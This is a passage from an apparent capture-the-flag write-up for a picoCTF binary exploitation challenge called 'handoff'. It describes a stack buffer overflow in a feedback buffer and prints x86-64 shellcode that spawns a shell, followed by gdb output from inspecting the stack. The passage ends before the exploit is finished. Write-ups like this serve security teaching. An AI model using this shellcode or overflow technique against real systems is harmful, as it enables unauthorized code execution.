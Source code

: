 The program does the following:
- Prints a menu with three options and asks the user for input.
- Allows the user to:
    1. Add a new recipient by providing a name (stored in the `entries` array).
    2. Send a message to a recipient by selecting an index and providing a message (stored in the `entries` array).
    3. Exit the program and provide feedback (stored in the `feedback` array).
- Contains a **buffer overflow vulnerability**:
    - The `feedback` array is only 8 bytes, but the program reads up to 32 bytes of input using `fgets(feedback, NAME_LEN, stdin)`.
- Exits the program after collecting feedback or if invalid input is provided.

Since there is no `win` function present in the source code we will likely need a shell. 

### Shellcode Injection
Since NX is disabled, we can make the program execute shellcode off the stack. Looking on shell-storm I found the following shellcode that we can use for this program. 
```python
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
```
We can input these bytes to the `msg` char array in the `entry_t` struct as it allows 64 bytes of input. 
Now, we need to figure out a way can make execution jump to the location of the `msg` char array on the stack. 
### Stack Inspection
We can use gdb to inspect the stack right after we input into the `feedback` buffer.
```
└─$ gdb handoff
gef➤  b *vuln+452
Breakpoint 1 at 0x4013ed
gef➤  r
Starting program: /home/vsingh/Downloads/CTF/picoCTF_2025/pwn/handoff/handoff 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
1
What's the new recipient's name: 
AAAAAAAA
What option would you like to do?
4. Add a new recipient
5. Send a message to a recipient
6. Exit the app
2
Which recipient would you like to send a message to?
0
What message would you like to send them?
BBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEE
What option would you like to do?
7. Add a new recipient
8. Send a message to a recipient
9. Exit the app
3
Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: 
FFFF
```
After reaching the breakpoint, we can run
```
gef➤  x/100gx $rsp
0x7fffffffd8d0:	0x646e61682f66666f	0x000000000066666f
```